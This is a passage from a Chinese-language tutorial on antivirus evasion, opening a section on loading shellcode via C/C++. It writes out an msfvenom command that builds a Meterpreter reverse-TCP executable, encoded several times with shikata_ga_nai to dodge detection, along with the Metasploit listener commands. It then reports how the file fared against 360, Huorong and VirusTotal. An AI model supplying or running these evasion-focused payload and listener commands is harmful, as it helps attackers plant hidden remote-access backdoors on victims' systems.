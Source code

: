 ![image-20220527185452045](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271854112.png)

火绒：

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271856578.png)

VT：

![image-20220527190242985](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271902073.png)

## C、C++加载shellcode

以上很多方法都是使用msfvenom生成shellcode，然后对shellcode进行混淆、编码等各种处理，最终再使用各种语言进行编译或加载。而被用到的最多的语言就是C/C++、C#和python。

C/C++加载shellcode手工编译的方法，一般分为两种方式：

1. C/C++源码+shellcode直接编译，其中对shellcode的执行可以使用函数指针执行、汇编指令执行、申请动态内存等方式，且shellcode可进行一些加密混淆处理；比如免杀工具veil和Venom都是使用了类似的方法。

2. 使用加载器加载C/C++代码，如shellcode_launcher之类。

### 方法1 msf直接生成exe（VT免杀率51/69）

这是最简单的一种加载shellcode的方法，直接使用msfvenom生成c语言的shellcode，为了提高免杀效果，使用了`shikata_ga_nai`编码器。

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.174.128 lport=6666  -f exe -o shellcode1.exe
```

![image-20220530115440059](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301154200.png)

在msf中进行监听：

```
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.174.128
msf6 > set LPORT 6666
msf6 > set EnableStageEncoding true
```

然后执行生成的`shellcode1.exe`，msf中可正常上线：

![image-20220530115427316](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301154538.png)

360和火绒均可查杀，在virustotal.com上查杀率为51/69。

360：

![image-20220530115531047](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301155110.png)

火绒：

![image-20220530115635342](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301156409.png)
